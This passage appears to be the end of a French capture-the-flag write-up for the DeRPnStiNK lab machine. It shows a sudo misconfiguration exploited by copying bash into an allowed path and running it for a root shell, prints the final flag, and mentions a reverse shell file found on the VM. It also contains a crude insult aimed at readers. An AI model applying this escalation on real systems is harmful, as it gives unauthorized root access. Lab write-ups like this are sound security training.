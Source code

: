 ```plain
For more information, dont forget to visit the Self Help Web page!!!
```

Pour l'attardé mental au fond de la classe ça veut dire qu'on doit faire un *sudo -l* pour voir ce qu'on est autorisé à lancer :  

```plain
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

Obtenir le root est aisé :  

```plain
mrderp@DeRPnStiNK:~$ cp /bin/bash /home/mrderp/binaries/derpybash
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpybash -p
root@DeRPnStiNK:~# id
uid=0(root) gid=0(root) groups=0(root)
```

et le dernier flag :  

```plain
root@DeRPnStiNK:/root# cat Desktop/flag.txt 
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo
```

Parcours de santé
-----------------

Le CTF était simple malheureusement le fait que *wpscan* soit incapable de bruteforcer correctement les accounts m'a fait perdre beaucoup de temps :-(   

Pour info le fichier *elidumfy.php* présent était bien un reverse shell qui tenter de se connecter sur 192.168.3.139:4444. La VM ne voyant pas de route pour cette adresse, le script échouait sans générer le moindre paquet.  

Si l'auteur avait laissé une indication sur cette configuration réseau le fichier aurait pu alors être réutilisé.  


*Published March 14 2018 at 12 01*